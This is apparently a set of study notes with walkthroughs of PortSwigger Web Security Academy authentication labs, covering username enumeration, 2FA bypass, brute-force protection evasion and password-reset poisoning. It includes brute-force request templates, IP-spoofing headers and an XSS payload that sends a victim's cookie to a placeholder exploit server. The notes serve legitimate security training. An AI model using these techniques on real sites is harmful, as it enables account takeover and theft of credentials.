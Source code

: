 # Authentication

## Username enumeration via different responses
  1) Notice that other responses contain the message `Invalid username`, but this response says Incorrect password. Make a note of the username.
  2) Bruteforce password: `username=identified-user&password=§invalid-password§` ;

## 2FA code simple bypass
  When prompted for the verification code, manually change the URL to navigate to /my-account.

## Password reset broken logic
  1) Delete the value of the **temp-forgot-password-token** parameter in both the URL and request body.
  2) Change the username parameter to carlos. Set the new password to whatever you want and send the request.

## Username enumeration via subtly different responses
  Grep - Extract string for column to check: `"Invalid username or password."` Or maybe it can be `"Invalid username or pass"` after username becomes correct.

## Username enumeration via response timing
  When you enter a valid username (your own), the response time is increased depending on the length of the password you entered. 
  1) Set the password to a very long string of characters (about 100 characters should do it).
  2) Add `X-Forwarded-For: $1$` - and brute force it to 200 or more. - it will spoof your IP, so its ByPass.

## Broken brute-force protection, IP block
  Brute Force with this order (your IP is temporarily blocked if you submit 3 incorrect logins in a row): 
  1) Login into your existed account 1 time.
  2) 3 times try to bruteforce another accounts.
  3) Repeat.

## Username enumeration via account lock
  1) Try to lock user account with Null payloads (generate fx 5 payloads for 1 username);
  2) Notice that the responses for one of the usernames were longer than responses when using other usernames.
     
-----------------------Privilage Escalation (you must need access in at least 1 account already)----------------------------
     
## 2FA broken logic
  But you already need to have at least 1 account.

    With Burp running, log in to your own account and investigate the 2FA verification process. Notice that in the POST /login2 request, the verify parameter is used to determine which user's account is being accessed.
    Log out of your account.
    Send the GET /login2 request to Burp Repeater. Change the value of the verify parameter to carlos and send the request. This ensures that a temporary 2FA code is generated for Carlos.
    Go to the login page and enter your username and password. Then, submit an invalid 2FA code.
    Send the POST /login2 request to Burp Intruder.
    In Burp Intruder, set the verify parameter to carlos and add a payload position to the mfa-code parameter. Brute-force the verification code.
    Load the 302 response in the browser.
    Click My account to solve the lab.

  https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-broken-logic

## Brute-forcing a stay-logged-in cookie
  1) Notice stay-logged-in cookie something like `wiener:51dc30ddc473d43a6011e9ebba6ca770`;
  2) Hash your password using MD5 to confirm that = `base64(username+':'+md5HashOfPassword)` ;
  3) Send GET /my-account request to burp intruder.
  4) Under Payload processing, add the following rules in order. These rules will be applied sequentially to each payload before the request is submitted.

    Hash: MD5
    Add prefix: carlos:
    Encode: Base64-encode

  5) Add a grep match rule to flag any responses containing the string "Update email" - becouse it will apear only if you logged in.

## Offline password cracking (stay-logged-in)
  1) Notice that you have stay-logged-in: `username+':'+md5HashOfPassword`;
  2) You now need to steal the victim user's cookie. Observe that the comment functionality is vulnerable to XSS;
  3) Go to the blog posts comment and paste: `<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>`
  4) Decode the cookie in Burp Decoder. The result will be: `carlos:26323c16d5f4dabff3bb136f2460a943`
  5) Copy the hash and paste it into a search engine or Decode.

## Password reset poisoning via middleware
  1) Send the **POST /forgot-password** request to Burp Repeater.;
  2) add **X-Forwarded-Host:** YOUR-EXPLOIT-SERVER-ID.exploit-server.net;
  3) Change the username parameter to **carlos** and send.
  4) Obtain **temp-forgot-password-token** on your exploit server and change the carlos password.

## Password brute-force via password change
  This is just experimets with the password change functionality. Notice the behavior when you enter the wrong current password or other inputs.
  Rare and not so complicated topic.
     
  `username=carlos&current-password=§incorrect-password§&new-password-1=123&new-password-2=abc`

  https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-brute-force-via-password-change
